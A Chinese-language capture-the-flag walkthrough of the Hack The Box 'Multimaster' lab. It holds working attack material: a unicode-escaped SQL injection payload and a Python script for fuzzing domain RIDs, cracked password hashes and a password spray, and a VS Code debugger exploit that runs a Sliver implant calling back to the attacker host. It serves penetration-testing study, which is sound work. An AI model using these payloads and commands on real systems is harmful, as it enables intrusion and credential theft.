## 信息收集

nmap 扫描

```
└─$ sudo nmap -Pn -sC -sV -p- --min-rate 10000 10.10.10.179 -oA Multimaster
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-25 03:05 PDT
Nmap scan report for 10.10.10.179
Host is up (0.33s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: MegaCorp
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-06-25 10:12:39Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds  Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGACORP)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=MULTIMASTER.MEGACORP.LOCAL
| Not valid before: 2022-06-24T10:11:03
|_Not valid after:  2022-12-24T10:11:03
| rdp-ntlm-info: 
|   Target_Name: MEGACORP
|   NetBIOS_Domain_Name: MEGACORP
|   NetBIOS_Computer_Name: MULTIMASTER
|   DNS_Domain_Name: MEGACORP.LOCAL
|   DNS_Computer_Name: MULTIMASTER.MEGACORP.LOCAL
|   DNS_Tree_Name: MEGACORP.LOCAL
|   Product_Version: 10.0.14393
|_  System_Time: 2022-06-25T10:13:36+00:00
|_ssl-date: 2022-06-25T10:14:13+00:00; +6m59s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: MULTIMASTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h30m59s, deviation: 3h07m50s, median: 6m58s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-06-25T10:13:37
|_  start_date: 2022-06-25T10:11:08
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: MULTIMASTER
|   NetBIOS computer name: MULTIMASTER\x00
|   Domain name: MEGACORP.LOCAL
|   Forest name: MEGACORP.LOCAL
|   FQDN: MULTIMASTER.MEGACORP.LOCAL
|_  System time: 2022-06-25T03:13:34-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 131.02 seconds

```

首先测试下`80`端口，通过`dirsearch`扫描目录，存在`waf`无法进行有效的扫描。网站是通过`webpack`打包的，所以我们可以在`/js/app.eeb965b5.js`文件中进行分析。

在文件中分析得到存在一个接口 `/api/getColleagues`



该接口接受`json`格式的数据，并且存在`waf`，常见的`sql`注入关键字都被过滤了。经过简单的测试，发现`unicode`编码会返回不一样的数据

正常返回结果



不一样的返回结果



## SQL注入

所以这里直接使用了`sqlmap`的`charunicodeescape.py`脚本来进行注入
```
sqlmap -r post.txt --random-agent --tamper=charunicodeescape --level=5 --risk=3
```



通过注入我们可以得到如下信息
```
web server operating system: Windows 10 or 2016 or 2019
web application technology: ASP.NET 4.0.30319, ASP.NET, Microsoft IIS 10.0
back-end DBMS: Microsoft SQL Server 2017
current_user:   finder
users:          sa, finder
dbs:            Hub_DB, master, model, msdb, tempdb


Database: Hub_DB
[2 tables]
+------------+
| Colleagues |
| Logins     |
+------------+

Database: Hub_DB
Table: Logins
[3 columns]
+----------+---------+
| Column   | Type    |
+----------+---------+
| id       | int     |
| password | varchar |
| username | varchar |
+----------+---------+

Database: Hub_DB
Table: Colleagues
[5 columns]
+----------+---------+
| Column   | Type    |
+----------+---------+
| position | varchar |
| email    | varchar |
| id       | int     |
| image    | varchar |
| name     | varchar |
+----------+---------+


```

因为存在`waf`，跑了一会就会出现403，所以要多跑几次，才能得到相对完整的数据

```
Database: Hub_DB
Table: Colleagues
[17 entries]
+------+----------------------+-------------+----------------------+----------------------+
| id   | email                | image       | name                 | position             |
+------+----------------------+-------------+----------------------+----------------------+
| 1    | sbauer@megacorp.htb  | sbauer.jpg  | Sarina Bauer         | Junior Developer     |
| 2    | okent@megacorp.htb   | okent.jpg   | Octavia Kent         | Senior Consultant    |
| 3    | ckane@megacorp.htb   | ckane.jpg   | Christian Kane       | Assistant Manager    |
| 4    | kpage@megacorp.htb   | kpage.jpg   | Kimberly Page        | Financial Analyst    |
| 5    | shayna@megacorp.htb  | shayna.jpg  | Shayna Stafford      | HR Manager           |
| 6    | james@megacorp.htb   | james.jpg   | James Houston        | QA Lead              |
| 7    | cyork@megacorp.htb   | cyork.jpg   | Connor York          | Web Developer        |
| 8    | rmartin@megacorp.htb | rmartin.jpg | Reya Martin          | Tech Support         |
| 9    | zac@magacorp.htb     | zac.jpg     | Zac Curtis           | Junior Analyst       |
| 10   | jorden@megacorp.htb  | jorden.jpg  | Jorden Mclean        | Full-Stack Developer |
| 11   | alyx@megacorp.htb    | alyx.jpg    | Alyx Walters         | Automation Engineer  |
| 12   | ilee@megacorp.htb    | ilee.jpg    | Ian Lee              | Internal Auditor     |
| 13   | nbourne@megacorp.htb | nbourne.jpg | Nikola Bourne        | Head of Accounts     |
| 14   | zpowers@megacorp.htb | zpowers.jpg | Zachery Powers       | Credit Analyst       |
| 15   | aldom@megacorp.htb   | aldom.jpg   | Alessandro Dominguez | Senior Web Developer |
| 16   | minato@megacorp.htb  | minato.jpg  | MinatoTW             | CEO                  |
| 17   | egre55@megacorp.htb  | egre55.jpg  | egre55               | CEO                  |
+------+----------------------+-------------+----------------------+----------------------+

Database: Hub_DB
Table: Logins
[17 entries]
+----------+--------------------------------------------------------------------------------------------------+
| username | password                                                                                         |
+----------+--------------------------------------------------------------------------------------------------+
| sbauer   | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| okent    | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
| ckane    | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
| kpage    | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
| shayna   | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| james    | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| cyork    | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| rmartin  | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
| zac      | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
| jorden   | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| alyx     | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
| ilee     | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
| nbourne  | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
| zpowers  | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
| aldom    | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| minatotw | cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc |
| egre55   | cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc |
+----------+--------------------------------------------------------------------------------------------------+

```
拿到用户名后可以尝试下`kerberoast`攻击，虽然不存在错误配置的用户，但是从下图中可以得知有3个用户是不存在域中的，所以数据库里的用户名仅有部分存在域中，或者这里的用户名只是域中的部分用户名。




通过`mssql`，我们可以枚举域用户，这样就可以获得一个完整的用户名列表了。`sqlmap`提供的`payload`如下：
```
-2127' UNION ALL SELECT 46,46,46,PAYLOAD,46-- rjXz
```
我们使用在线编码平台`cyberchef`来编码`payload`

获取域名 `-2127' UNION ALL SELECT 46,46,46,DEFAULT_DOMAIN() as mydomain,46-- rjXz`



获取域管理的RID，返回的结果出现乱码，直接复制并转`hex`即可。

```
-2127' UNION ALL SELECT 46,46,46,SUSER_SID('MEGACORP\Domain Admins'),46-- rjXz

RID: 0105000000000005150000001c00d1bcd181f1492bdfc23600020000
```



得到`RID`之后，前面48个字节为域的`SID`，然后通过这个`SID`，我们就可以组合`RID`了。这里需要注意的是，组合的`RID`后面几位字节需要进行翻转，并凑齐8个字节。

比如`500`，转换成十六进制为`000001F4`，翻转后为`F4010000`

然后带到注入中进行查询

```
-2127' UNION ALL SELECT 46,46,46,SUSER_NAME(0x0105000000000005150000001c00d1bcd181f1492bdfc236F4010000),46-- rjXz
```



所以这里我们需要`fuzz`合法的`rid`来获取用户名，考虑到服务器存在`waf`，脚本需要设置速率。

```python
import requests
import time
import json
import binascii
import struct

sql = "-2127' UNION ALL SELECT 46,46,46,%s,46-- rjXz"


def generate_payload():
    all = []
    for i in range(500, 10500):
        sid = binascii.hexlify(struct.pack("<I", i)).decode()
        payload = f"SUSER_SNAME(0x0105000000000005150000001c00d1bcd181f1492bdfc236{sid})"
        full_payload = sql % payload
        unicode_payload = "".join([r"\u{:04x}".format(ord(c)) for c in full_payload])
        all.append(unicode_payload)
    return all


def sqli(payloads):
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
        "Content-Type": "application/json"
    }
    for payload in payloads:
        while True:
            data = '{"name": "%s"}' % payload
            req = requests.post("http://10.10.10.179/api/getColleagues", headers=headers, data=data)
            if req.status_code != 403:
                username = json.loads(req.text)[0]["email"]
                if username:
                    print(username)
                break
            time.sleep(30)
            
        time.sleep(1)


if __name__ == '__main__':
    payloads = generate_payload()
    sqli(payloads)

```

跑了一段时间后，得到了域内的用户名

```
MEGACORP\Administrator
MEGACORP\Guest
MEGACORP\krbtgt
MEGACORP\DefaultAccount
MEGACORP\Domain Admins
MEGACORP\Domain Users
MEGACORP\Domain Guests
MEGACORP\Domain Computers
MEGACORP\Domain Controllers
MEGACORP\Cert Publishers
MEGACORP\Schema Admins
MEGACORP\Enterprise Admins
MEGACORP\Group Policy Creator Owners
MEGACORP\Read-only Domain Controllers
MEGACORP\Cloneable Domain Controllers
MEGACORP\Protected Users
MEGACORP\Key Admins
MEGACORP\Enterprise Key Admins
MEGACORP\RAS and IAS Servers
MEGACORP\Allowed RODC Password Replication Group
MEGACORP\Denied RODC Password Replication Group
MEGACORP\MULTIMASTER$
MEGACORP\DnsAdmins
MEGACORP\DnsUpdateProxy
MEGACORP\svc-nas
MEGACORP\Privileged IT Accounts
MEGACORP\tushikikatomo
MEGACORP\andrew
MEGACORP\lana 
MEGACORP\alice
MEGACORP\test 
MEGACORP\dai  
MEGACORP\svc-sql
MEGACORP\SQLServer2005SQLBrowserUser$MULTIMASTER
MEGACORP\sbauer
MEGACORP\okent
MEGACORP\ckane
MEGACORP\kpage
MEGACORP\james
MEGACORP\cyork
MEGACORP\rmartin
MEGACORP\zac  
MEGACORP\jorden
MEGACORP\alyx 
MEGACORP\ilee 
MEGACORP\nbourne
MEGACORP\zpowers
MEGACORP\aldom
MEGACORP\jsmmons
MEGACORP\pmartin
MEGACORP\Developers
```

## 密码破解

接下来就是破解`hash`了，应该是4个默认密码。

```
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc
```


`hash`长度为96位，从已知的加密算法中，`sha384`默认的加密长度也是96位，使用`hashcat`来破解。

```
└─$ hashcat --help | grep 384
  10800 | SHA2-384                                            | Raw Hash
  17500 | SHA3-384                                            | Raw Hash
  17900 | Keccak-384                                          | Raw Hash
  10870 | sha384(utf16le($pass))                              | Raw Hash
  10810 | sha384($pass.$salt)                                 | Raw Hash salted and/or iterated
  10820 | sha384($salt.$pass)                                 | Raw Hash salted and/or iterated
  10840 | sha384($salt.utf16le($pass))                        | Raw Hash salted and/or iterated
  10830 | sha384(utf16le($pass).$salt)                        | Raw Hash salted and/or iterated
  26900 | SNMPv3 HMAC-SHA384-256                              | Network Protocol
  27300 | SNMPv3 HMAC-SHA512-384                              | Network Protocol

```
在`sha2-384`和`sha3-384`模式下都没有跑出密码，接下来测试一下`keccak-384`。

```
hashcat -m 17900 --force -a 0 multimaster.txt /usr/share/wordlists/rockyou.txt

9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739:password1
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813:finance1
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa:banking1
```

成功得到密码，拿到密码后就可以进行密码喷射攻击了，这里首先对`smb`服务进行测试：



得到用户`tushikikatomo`的密码，接着使用它登入`smb`，查看共享。同时测试了下`ldap`登入失败，`winrm`登录成功，在桌面得到`user.txt`

```
└─$ smbmap -u tushikikatomo -p finance1 -H 10.10.10.179                                         
[+] IP: 10.10.10.179:445        Name: multimaster.megacorp.local                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        Development                                             NO ACCESS
        dfs                                                     READ ONLY
        E$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 

```


## 横向移动

查看`smb`服务的`dfs`共享，不过当前用户无法列目录。



`wwwroot` 目录无法列出，`development` 共享目录也无法获取。
```
*Evil-WinRM* PS C:\inetpub\wwwroot> ls
Access to the path 'C:\inetpub\wwwroot' is denied.
At line:1 char:1
+ ls
+ ~~
    + CategoryInfo          : PermissionDenied: (C:\inetpub\wwwroot:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand


*Evil-WinRM* PS C:\DFSRoots\dfs\development> ls
The network location cannot be reached. For information about network troubleshooting, see Windows Help.

At line:1 char:1
+ ls
+ ~~
    + CategoryInfo          : ReadError: (C:\DFSRoots\dfs\development:String) [Get-ChildItem], IOException
    + FullyQualifiedErrorId : DirIOError,Microsoft.PowerShell.Commands.GetChildItemCommand
```

那么继续进行信息收集，先使用`ldifde`导出域信息，查看服务器上运行的进程，开启的端口。



服务器上运行着`vs code`



而且`vs code`开启了端口，大概率是`debug`模式。先查看一下`vs code`的版本号

```
*Evil-WinRM* PS C:\Program Files\Microsoft VS Code\resources\app> type package.json
{
  "name": "Code",
  "version": "1.37.1",
  "distro": "a3c0cf400f1c7b72d9f4755f2d7b5c8551732c0c",
  "author": {
    "name": "Microsoft Corporation"
  },

```

当前版本比较低，通过搜索发现存在一个本地提权的漏洞，这里可以使用工具`cefdebug`来进行利用。

```
*Evil-WinRM* PS C:\programdata> ./debug.exe
debug.exe : [2022/06/28 05:18:12:9132] U: There are 3 tcp sockets in state listen.
[2022/06/28 05:18:32:9431] U: There were 1 servers that appear to be CEF debuggers.
[2022/06/28 05:18:32:9431] U: ws://127.0.0.1:36339/7c276ced-12d0-47bd-8b87-625cfeb844bd

*Evil-WinRM* PS C:\programdata> ./debug.exe --url ws://127.0.0.1:36339/7c276ced-12d0-47bd-8b87-625cfeb844bd --code "process.version"
debug.exe : [2022/06/28 05:20:17:9295] U: >>> process.version
[2022/06/28 05:20:17:9295] U: <<< v10.11.0
```

从上面`code`的安装路径可知，是一个32位程序，所以我们需要生成一个32位的`payload`来执行。

运行`payload`

```
*Evil-WinRM* PS C:\programdata> ./debug.exe --url ws://127.0.0.1:36339/7c276ced-12d0-47bd-8b87-625cfeb844bd --code "process.mainModule.require('child_process').exec('c:\\programdata\\ss.exe')"
debug.exe : [2022/06/28 05:28:48:3028] U: >>> process.mainModule.require('child_process').exec('c:\\programdata\\ss.exe')
[2022/06/28 05:28:48:3028] U: <<< ChildProcess
```

得到一个`shell`
```
[server] sliver > generate --mtls 10.10.16.3:4444 -s /tmp/s.exe -a x86

[*] Generating new windows/386 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 00:01:01
? Overwrite existing file? Yes
[*] Implant saved to /tmp/s.exe

[server] sliver > mtls -l 4444

[*] Starting mTLS listener ...

[*] Successfully started job #2

[*] Session 63b1d6ac WHISPERING_DUNE-BUGGY - 10.10.10.179:49980 (MULTIMASTER) - windows/386 - Tue, 28 Jun 2022 05:21:50 PDT

```

查看当前用户权限



切换到`wwwroot`目录



`web.config`文件没有什么信息，查看`bin`目录
```
Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----         1/7/2020   9:28 PM                roslyn                                                                
-a----        2/21/2013   7:13 PM         102912 Antlr3.Runtime.dll                                                    
-a----        2/21/2013   7:13 PM         431616 Antlr3.Runtime.pdb                                                    
-a----        5/24/2018   1:08 AM          40080 Microsoft.CodeDom.Providers.DotNetCompilerPlatform.dll                
-a----        7/24/2012  11:18 PM          45416 Microsoft.Web.Infrastructure.dll                                      
-a----         1/9/2020   4:13 AM          13824 MultimasterAPI.dll                                                    
-a----         1/9/2020   4:13 AM          28160 MultimasterAPI.pdb                                                    
-a----        2/17/2018   8:14 PM         664576 Newtonsoft.Json.dll                                                   
-a----       11/27/2018  11:30 PM         178808 System.Net.Http.Formatting.dll                                        
-a----       11/27/2018  11:28 PM          27768 System.Web.Cors.dll                                                   
-a----        1/27/2015   2:34 PM         139976 System.Web.Helpers.dll                                                
-a----       11/27/2018  11:31 PM          39352 System.Web.Http.Cors.dll                                              
-a----       11/27/2018  11:31 PM         455096 System.Web.Http.dll                                                   
-a----        1/31/2018  10:49 PM          77520 System.Web.Http.WebHost.dll                                           
-a----        1/27/2015   2:32 PM         566472 System.Web.Mvc.dll                                                    
-a----        2/11/2014   1:56 AM          70864 System.Web.Optimization.dll                                           
-a----        1/27/2015   2:32 PM         272072 System.Web.Razor.dll                                                  
-a----        1/27/2015   2:34 PM          41672 System.Web.WebPages.Deployment.dll                                    
-a----        1/27/2015   2:34 PM         211656 System.Web.WebPages.dll                                               
-a----        1/27/2015   2:34 PM          39624 System.Web.WebPages.Razor.dll                                         
-a----        7/17/2013   4:33 AM        1276568 WebGrease.dll    
```

下载`MultimasterAPI.dll`文件进行分析，在里面发现了一个数据库密码
```
string connectionString = "server=localhost;database=Hub_DB;uid=finder;password=D3veL0pM3nT!;";
```

我们可以使用这个密码来进行一波爆破，得到用户`sbauer`的授权




查看当前用户权限

```
[server] sliver (WHISPERING_DUNE-BUGGY) > getprivs 

Privilege Information for ss.exe (PID: 3960)
--------------------------------------------

Process Integrity Level: Medium

Name                            Description                     Attributes
====                            ===========                     ==========
SeMachineAccountPrivilege       Add workstations to domain      Enabled, Enabled by Default
SeChangeNotifyPrivilege         Bypass traverse checking        Enabled, Enabled by Default
SeIncreaseWorkingSetPrivilege   Increase a process working set  Enabled, Enabled by Default

```

这里直接加载`bloodhound`来进行信息收集

```
[server] sliver (WHISPERING_DUNE-BUGGY) > armory install sharp-hound-3

[*] Installing alias 'Sharp Hound 3' (v0.0.2) ... done!

[server] sliver (WHISPERING_DUNE-BUGGY) > sharp-hound-3 

[*] sharp-hound-3 output:
-----------------------------------------------
Initializing SharpHound at 6:05 AM on 6/28/2022
-----------------------------------------------

